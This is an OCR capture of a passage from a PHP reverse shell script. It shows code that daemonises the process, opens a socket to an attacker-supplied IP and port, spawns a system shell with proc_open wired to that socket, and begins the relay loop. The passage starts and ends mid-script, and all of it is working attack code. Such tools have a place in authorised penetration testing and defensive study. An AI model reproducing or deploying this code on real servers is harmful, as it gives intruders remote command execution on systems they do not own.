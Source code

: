    ```php
       }
   
       // Make the current process a session leader
       // Will only succeed if we forked
       if (posix_setsid() == -1) {
           printit("Error: Can't setsid()");
           exit(1);
       }
   
       $daemon = 1;
   } else {
       printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
   }
   
   // Change to a safe directory
   chdir("/");
   
   // Remove any umask we inherited
   umask(0);
   
   //
   // Do the reverse shell...
   //
   
   // Open reverse connection
   $sock = fsockopen($ip, $port, $errno, $errstr, 30);
   if (!$sock) {
       printit("$errstr ($errno)");
       exit(1);
   }
   
   // Spawn shell process
   $descriptorspec = array(
      0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
      1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
      2 => array("pipe", "w")   // stderr is a pipe that the child will write to
   );
   
   $process = proc_open($shell, $descriptorspec, $pipes);
   
   if (!is_resource($process)) {
       printit("ERROR: Can't spawn shell");
       exit(1);
   }
   
   // Set everything to non-blocking
   // Reason: Occsionally reads will block, even though stream_select tells us they won't
   stream_set_blocking($pipes[0], 0);
   stream_set_blocking($pipes[1], 0);
   stream_set_blocking($pipes[2], 0);
   stream_set_blocking($sock, 0);
   
   printit("Successfully opened reverse shell to $ip:$port");
   
   while (1) {
       // Check for end of TCP connection
       if (feof($sock)) {
           printit("ERROR: Shell connection terminated");
           break;
       }
   
       // Check for end of STDOUT
       if (feof($pipes[1])) {
   ```